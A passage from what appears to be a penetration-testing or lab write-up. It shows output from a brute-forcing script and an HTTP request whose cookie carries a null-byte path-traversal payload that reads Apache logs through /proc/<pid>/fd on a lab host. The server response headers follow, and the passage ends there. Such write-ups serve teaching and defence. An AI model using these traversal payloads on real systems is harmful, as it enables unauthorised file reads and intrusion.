 <p style="text-align:justify;">
After executing the script above, we see the following response
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
python3 bruteforcer.py

781

781

781

781

781

781

781

5247076

781

781

</pre>

<p style="text-align:justify;">
As we see above, at the eighth request, the response returned the content length of <b>5247076</b> which indicates that we might read the right file which is the file with number 9. Indeed the following HTTP request / response pair shows the httpd logs contained inside the file <b>/proc/6642/fd/9</b> 
</p>

<i><b>HTTP Request :</b></i> 

```
GET /listings.php HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6b82a05ec984697da862a3b2acf884c4; user=../../../../../proc/6642/fd/9%00
Connection: close

```
<i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sun, 27 Dec 2020 00:31:43 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8